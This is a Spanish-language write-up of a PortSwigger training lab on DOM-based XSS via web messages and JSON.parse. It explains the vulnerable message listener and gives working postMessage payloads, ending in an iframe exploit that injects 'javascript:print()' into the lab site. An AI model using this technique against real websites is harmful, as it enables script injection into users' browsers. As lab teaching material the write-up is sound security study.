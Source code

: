 ```yaml
---
title: "DOM XSS using web messages and JSON.parse"
description: "Laboratorio de Portswigger sobre DOM Based Vulnerabilities"
date: 2025-01-19 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - DOM Based Vulnerabilities
tags:
  - DOM Based Vulnerabilities
  - DOM XSS using web messages and JSON.parse
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` utiliza `mensajes web` y analiza el `mensaje` como `JSON`. Para `resolver` el `laboratorio`, debemos construir una página `HTML` en el `servidor de exploits` que `explote` esta `vulnerabilidad` y llame a la función `print()`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/DOM-Based-Lab-3/image_1.png)

Me llama la atención la `carga` del `objeto`, si `inspeccionamos` el `código fuente` vemos que la `ventana` tiene un `listener` y si `enviamos` un `mensaje` este se `mostrará` en la `web`

![](/assets/img/DOM-Based-Lab-3/image_2.png)

Para `enviar` un `mensaje` podemos usar `window.postMessage`, el `mensaje` debe `contener` un `string` en `formato JSON`. Al proporcionar los parámetros `type: 'load channel'` y `url: 'https://0afc00da04b221f285fd3b08005c00c2.web-security-academy.net/'` el script nos crea un `iframe` cuya `url` es la proporcionada

```
window.postMessage(JSON.stringify({type: 'load-channel', url: 'https://0afc00da04b221f285fd3b08005c00c2.web-security-academy.net/'}));
```

![](/assets/img/DOM-Based-Lab-3/image_3.png)

Como nos esta `cargando` una `url` podemos usar `javascript:print()` para `ejecutar código` JavaScript

```
window.postMessage(JSON.stringify({type: 'load-channel', url: 'javascript:print()'}));
```

![](/assets/img/DOM-Based-Lab-3/image_4.png)

A continuación nos vamos al `exploit server` e `insertamos` este `payload`. Este `payload` nos `carga` la `url` de la `web vulnerable` y `cuando se ha cargado enviamos un mensaje con el payload desde dentro del iframe`

```
<iframe src="https://0afc00da04b221f285fd3b08005c00c2.web-security-academy.net/" onload="this.contentWindow.postMessage(JSON.stringify({type: 'load-channel', url: 'javascript:print()'}), '*')">
```

Si pulsamos sobre `View exploit` se nos `cargará` el `iframe` y también se mostrará un `print()`. Si pulsamos en `Deliver exploit to victim` estaremos enviando a la víctima la `url` de nuestro servidor `https://exploit-0a9b002b0485218685773a2501aa0098.exploit-server.net/exploit` en el cual `alojamos` el `exploit`

![](/assets/img/DOM-Based-Lab-3/image_5.png)
